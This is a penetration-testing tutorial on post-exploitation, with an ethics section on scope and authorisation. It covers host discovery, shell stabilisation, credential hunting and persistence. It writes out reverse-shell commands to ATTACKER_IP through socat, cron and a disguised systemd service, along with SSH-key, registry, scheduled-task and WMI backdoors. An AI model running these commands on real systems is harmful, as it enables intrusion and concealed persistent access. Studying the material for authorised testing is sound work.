


# Post-Exploitation Overview
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## What Is Post-Exploitation and Why It Matters

**Post-exploitation** is the phase that begins after an attacker (or penetration tester) has successfully achieved initial access to a target system. It is, arguably, the most important phase in a security engagement — because raw access proves a vulnerability exists, but post-exploitation proves what that vulnerability *enables*.

A common misconception in penetration testing is that the engagement ends at initial access. It does not. Demonstrating that you can pop a shell on a web server is interesting; demonstrating that shell gives you access to a production database containing 2 million customer records, or that it lets you move laterally into the domain controller, is what actually drives remediation decisions and risk ratings.

> **Note:** Post-exploitation findings consistently carry the highest severity ratings in pentest reports. An **RCE on a DMZ host rated Medium** can become a **Critical finding** once you show it leads to domain compromise.

Post-exploitation objectives include:

- **Situational awareness**: What have you landed on? What can you reach?
- **Privilege escalation**: Can you move from low-privileged user to root/SYSTEM?
- **Credential harvesting**: Capturing passwords, hashes, tokens, and keys
- **Lateral movement**: Reaching additional hosts and services in the network
- **Persistence**: Maintaining access across reboots or credential changes
- **Data discovery**: Locating sensitive files, databases, intellectual property
- **Impact demonstration**: Proving what an adversary could realistically accomplish
- **Covering tracks** (in adversarial simulation only, with scope approval)

---

## The D.R.A.I.N Model

The **D.R.A.I.N model** is a structured post-exploitation framework used by professional penetration testers to ensure consistency and completeness. Each letter represents a phase that should be addressed during post-exploitation.



### D — Discovery

The first thing you do after landing on a system is **discover where you are** and what you have access to. This is distinct from external reconnaissance — you are now *inside* the network, and the information available to you changes dramatically.

Key discovery actions:
- Who am I? (`id`, `whoami`, `hostname`)
- What OS and version is this? (`uname -a`, `cat /etc/os-release`, `systeminfo`)
- What network interfaces exist? (`ip a`, `ipconfig /all`)
- What other hosts can I see? (`arp -n`, `cat /etc/hosts`, `ping` sweeps)
- Am I on a container, VM, or bare metal?

```bash
# Linux — immediate situational awareness
id && whoami && hostname && uname -a
cat /etc/os-release
ip a && ip route
arp -n
cat /etc/hosts

# Windows — immediate situational awareness
whoami && whoami /all && whoami /priv
hostname && systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
ipconfig /all
arp -a
type C:\Windows\System32\drivers\etc\hosts
```

### R — Reconnaissance

Now that you know where you are, conduct **internal reconnaissance** to map everything reachable from this foothold. This differs from external recon in that you have legitimate authenticated access from inside the network.

Key reconnaissance actions:
- What services are running on this host?
- What internal IP ranges exist?
- Are there other hosts in adjacent subnets?
- What domain/workgroup is this system joined to?
- Who else is logged in or has been logged in?

```bash
# Internal network sweep (Linux)
for i in $(seq 1 254); do (ping -c 1 -W 1 192.168.1.$i &>/dev/null && echo "192.168.1.$i UP") & done; wait

# Service discovery from compromised host
ss -tlnp
netstat -tlnp
nmap -sV --open -p 22,80,443,445,3389,3306,5432 192.168.1.0/24 2>/dev/null
```

### A — Access

**Deepen access** by escalating privileges, pivoting to new hosts, and expanding your foothold. This phase includes:

- Privilege escalation (local: sudo misconfig, SUID binaries, kernel exploits)
- Lateral movement (pass-the-hash, pass-the-ticket, SSH key reuse)
- Establishing persistence before moving on
- Pivoting into restricted network segments

> **Warning:** Always document your access path. If you exploit a second vulnerability to escalate, note it separately in your findings — each is a distinct issue with its own CVSS score.

### I — Impact

**Demonstrate real-world impact** based on what you have accessed. This is what transforms a technical finding into an executive-level risk conversation.

Impact categories to demonstrate:
- **Confidentiality**: Access to sensitive files, credentials, PII, intellectual property
- **Integrity**: Ability to modify configurations, data, or code
- **Availability**: Ability to disrupt services (document this, do NOT execute without explicit approval)

Examples of impact statements:
- "From the initial web shell on server A, we accessed the MySQL database containing 47,000 user credential hashes."
- "Using credentials harvested from server A, we authenticated to the domain controller as Domain Admin."
- "We located AWS access keys in an environment file, granting full programmatic access to the production S3 buckets."

### N — Notify

**Notify** the client or relevant stakeholder if you encounter a situation that exceeds the agreed scope or discovers critical risk requiring immediate attention. This includes:

- Discovery of data that suggests an active breach by a third party
- Access to systems outside the defined scope
- Imminent risk to critical infrastructure
- Personal data that triggers legal notification requirements

> **Note:** Most pentest rules of engagement include an **emergency contact procedure**. Know it before starting post-exploitation. If you stumble onto evidence of a real attacker in the system, stop and notify immediately.

---

## Shell Stabilisation: Upgrading a Dumb Shell to Full TTY

When you obtain a reverse shell, it is often a **dumb shell** — no tab completion, no arrow keys, Ctrl+C kills the connection, and interactive programs (like `su`, `sudo`, `vi`) break. Stabilising it to a **full TTY** is critical.

### Method 1: Python PTY (Most Common)

```bash
# Step 1: Spawn a PTY
python3 -c 'import pty;pty.spawn("/bin/bash")'
# If python3 not available, try python or python2

# Step 2: Background the shell
# Press: Ctrl+Z

# Step 3: Fix the terminal settings in your local shell
stty raw -echo; fg

# Step 4: Re-initialise the terminal
reset
export TERM=xterm
export SHELL=bash

# Step 5: Match the terminal dimensions (run in your local terminal first)
stty size   # outputs: rows cols  (e.g. 51 220)
# Then in the remote shell:
stty rows 51 cols 220
```

### Method 2: Socat Full TTY (Best Quality)

```bash
# On attacker machine — listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On target machine — connect with socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
```

This gives you the cleanest, most fully interactive TTY with minimal setup. Socat handles all the raw mode settings automatically.

### Method 3: rlwrap (Quick Improvement Without Full TTY)

```bash
# Wrap netcat listener with rlwrap for history/arrow key support
rlwrap nc -lvnp 4444
```

### Method 4: Evil-WinRM / Meterpreter (Windows)

```powershell
# Use Evil-WinRM for a proper Windows interactive shell over WinRM
evil-winrm -i TARGET_IP -u Administrator -p 'Password123!'

# Or use meterpreter which has built-in TTY-like functionality
# In msf: use exploit/multi/handler
# Set payload windows/x64/meterpreter/reverse_tcp
```

| Method | TTY Quality | Requires | Best For |
|--------|-------------|----------|----------|
| Python PTY | Good | Python on target | Linux targets |
| Socat | Excellent | Socat on both ends | Controlled environments |
| rlwrap | Basic | rlwrap on attacker | Quick improvement |
| Meterpreter | Excellent | MSF handler | Windows, complex engagements |

---

## Persistence Mechanisms Overview

**Persistence** ensures that if the initial vulnerability is patched or the system reboots, you retain access without needing to re-exploit. Always document what persistence you install and remove it at end of engagement.

> **Warning:** Installing persistence on systems outside your approved scope or failing to remove it at engagement end is a serious professional and legal violation.

### Linux Persistence

```bash
# Cron job — runs every minute as current user
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'") | crontab -

# System-wide cron (requires root)
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /etc/cron.d/update-check

# SSH authorized_keys (persistent access without password)
mkdir -p ~/.ssh && chmod 700 ~/.ssh
echo "ssh-rsa AAAA...your-public-key... attacker" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Systemd service (requires root)
cat > /etc/systemd/system/update-manager.service << 'EOF'
[Unit]
Description=System Update Manager
After=network.target

[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
EOF
systemctl daemon-reload
systemctl enable update-manager.service
```

### Windows Persistence

```powershell
# Registry Run key
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\Users\Public\backdoor.exe" /f

# Scheduled task
schtasks /create /tn "WindowsDefenderUpdate" /tr "C:\Windows\Temp\payload.exe" /sc ONLOGON /ru SYSTEM /f

# Startup folder
copy backdoor.exe "C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"

# WMI event subscription (stealthy, survives reboots)
# Requires PowerShell
$Filter = Set-WMIInstance -Namespace root\subscription -Class __EventFilter -Arguments @{
    Name = "UpdateCheck"; QueryLanguage = "WQL";
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime'"
}
```

---

## Situational Awareness After Compromise

Immediately after landing on a system, ask and answer these questions systematically before taking any further action:

### The 7 First Questions

1. **Who am I?** — User context, privileges, group memberships
2. **Where am I?** — Hostname, OS version, domain membership
3. **What can I reach?** — Network interfaces, routing table, visible hosts
4. **Who else is here?** — Logged-in users, recent logins, user accounts
5. **What is running?** — Processes, services, listening ports
6. **What can I read/write?** — File permissions, sudo rights, writable paths in PATH
7. **What has been happening?** — Log files, bash history, recent file modifications

```bash
# Linux — all-in-one awareness dump
echo "=== ID ===" && id
echo "=== HOSTNAME ===" && hostname && uname -a
echo "=== NETWORK ===" && ip a && ip route
echo "=== USERS ===" && cat /etc/passwd | grep -v nologin | grep -v false
echo "=== LOGGED IN ===" && w && last | head -20
echo "=== PROCESSES ===" && ps aux --forest | head -40
echo "=== LISTENING ===" && ss -tlnp
echo "=== SUDO ===" && sudo -l 2>/dev/null
echo "=== HISTORY ===" && cat ~/.bash_history 2>/dev/null | head -50
```

---

## What to Look for First: Priority Targets

Not all findings are equal. Prioritise in this order after initial access:

| Priority | Target | Why |
|----------|--------|-----|
| 1 | Credentials (passwords, hashes, keys) | Enable lateral movement and escalation |
| 2 | Network map | Understand what else is reachable |
| 3 | Sensitive data | Prove confidentiality impact |
| 4 | Domain information | Identify AD environment for bigger wins |
| 5 | Running services | Find new attack surface on internal network |
| 6 | Configuration files | Often contain hardcoded creds and arch details |

---

## Documenting Everything During Post-Exploitation

Professional penetration testers document **during** the engagement, not after. Memory is unreliable, and you may need to reproduce steps in a debriefing.

### What to Capture

- Every command run (with timestamp if possible)
- Every output that shows access or impact
- Screenshots of key findings (especially credentials and sensitive data)
- The access chain: how you got from A to B to C
- Any files created, modified, or removed (for cleanup)

```bash
# Start a local logging session (run this BEFORE connecting)
script -a -t pentest-session.log

# Or use tmux with logging
tmux new-session -s pentest
# In tmux: Ctrl+B, then : pipe-pane -o "cat >> /tmp/tmux-log.txt"

# Timestamp all commands in bash
export HISTTIMEFORMAT="%F %T "
export PROMPT_COMMAND='echo "$(date +%F_%T) $(history 1)" >> ~/pentest-cmds.log'
```

### Evidence Standards

- **Screenshots**: Show the full terminal, including the prompt (to show hostname/user)
- **Command + output pairs**: Never show output without the command that generated it
- **Chain of evidence**: Document the path from initial finding to each access level
- **Timestamps**: UTC, always. Local time is ambiguous in reports.

---

## Post-Exploitation Ethics

### The Minimum Necessary Access Principle

Only access what you need to prove the finding. If you can demonstrate domain admin access by listing users, you do not need to read every employee's email. If you can show a database is accessible, you do not need to dump all 2 million rows.

> **Note:** Extracting real PII (names, SSNs, credit cards) from production systems — even during a pentest — can create legal exposure for you and your organisation. Always work with hashed or truncated samples, or coordinate with the client to use test data.

### Avoiding Destructive Actions

Never perform any of the following without explicit written authorisation:
- Deleting or modifying production data
- Changing account passwords (this causes real outages)
- Disabling security controls or antivirus
- Crashing services or introducing instability
- Installing software that consumes significant resources

### Scope Management

The **scope document** (Statement of Work or Rules of Engagement) defines what is in and out of bounds. During post-exploitation you may naturally discover systems not listed in scope — perhaps a database server reachable from a compromised web server.

**What to do:**
1. Stop lateral movement at the boundary of in-scope systems
2. Document the out-of-scope system's existence and reachability
3. Note it as a finding: "From in-scope host X, we identified Y which was not in scope but appears reachable"
4. Contact the client to discuss expanding scope if warranted

> **Warning:** Compromising a system outside your authorised scope is **unauthorised computer access** regardless of how you got there. The fact that a network path exists does not make it authorised.

---

## Full Post-Exploitation Workflow



---

## Quick Reference Checklists

### Linux Post-Exploitation Checklist

- [ ] `id && whoami && hostname && uname -a`
- [ ] `cat /etc/os-release`
- [ ] `sudo -l`
- [ ] `cat /etc/passwd` and `/etc/shadow` (if readable)
- [ ] `ss -tlnp` / `netstat -tlnp`
- [ ] `ip a && ip route && arp -n`
- [ ] `ps aux --forest`
- [ ] `cat ~/.bash_history`
- [ ] `find / -perm -4000 -type f 2>/dev/null` (SUID binaries)
- [ ] `crontab -l && cat /etc/cron*`
- [ ] `ls -la ~/.ssh/`
- [ ] `env | grep -i pass`
- [ ] Run `linpeas.sh`

### Windows Post-Exploitation Checklist

- [ ] `whoami /all && whoami /priv`
- [ ] `systeminfo`
- [ ] `net user && net localgroup administrators`
- [ ] `ipconfig /all && netstat -ano && arp -a`
- [ ] `tasklist /v`
- [ ] `sc query state= all`
- [ ] `schtasks /query /fo LIST /v`
- [ ] `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- [ ] Check PowerShell history
- [ ] `cmdkey /list`
- [ ] Run `winpeas.exe`

---

## Key Terms

- **Dumb shell**: A basic reverse shell with no TTY, no tab completion, and fragile signal handling
- **TTY**: Teletypewriter — the interface between a process and a terminal; a full TTY is required for interactive programs
- **Persistence**: A mechanism that maintains attacker access across reboots or credential changes
- **Pivot host**: A compromised system used as a relay to reach additional internal systems
- **Pass-the-Hash**: Authenticating to a Windows system using an NTLM hash without cracking the plaintext
- **LSASS**: Local Security Authority Subsystem Service — the Windows process that holds credential material in memory
- **NTDS.DIT**: The Active Directory database file, containing all domain account hashes
- **SUID**: Set User ID — a Unix file permission bit that causes a binary to execute with its owner's privileges (often root)
- **Lateral movement**: The process of moving from one compromised host to another within the same network
- **D.R.A.I.N**: Discovery, Reconnaissance, Access, Impact, Notify — a structured post-exploitation methodology

---

*See also: `system-enumeration.md`, `credential-dumping.md`, `sensitive-data-discovery.md`, `pivoting.md`*
